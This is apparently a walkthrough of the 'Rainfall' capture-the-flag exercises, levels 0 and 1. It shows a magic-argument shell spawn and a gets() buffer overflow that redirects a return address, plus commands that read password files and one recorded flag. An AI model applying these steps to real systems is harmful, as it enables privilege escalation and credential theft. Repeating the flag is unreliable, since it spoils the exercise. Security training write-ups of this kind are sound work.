 # Rainfall Walkthrough

## Level0:
### Code after RE:
![level0.png](./ressource/level0.png)
### Solution: 
- We can have a shell as level1 by simple providing 423 as the first argument.
- ``./level0 423`` (This spawn a shell as level1 user)\
- ``cat /home/level1/.pass``
### Result:
	1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a

## Level1
### Code after RE:
![level1.png](ressource/level1.png)
### Solution:
- There is a function that will execute a shell as level2 but we cant execute it in the normal program flow.
- We see that we can overflow the buffer through the ``gets`` function.
- We craft a payload to change the return address of the ``main`` to the ``run`` function.
- ``python3 ./level1/craft_payload.py && scp -P 4243 ./payload level1@localhost:/tmp/payload``
- ``cat payload | ./level1`` (This spawn a shell as level2 user)
- ``cat /home/level2/.pass``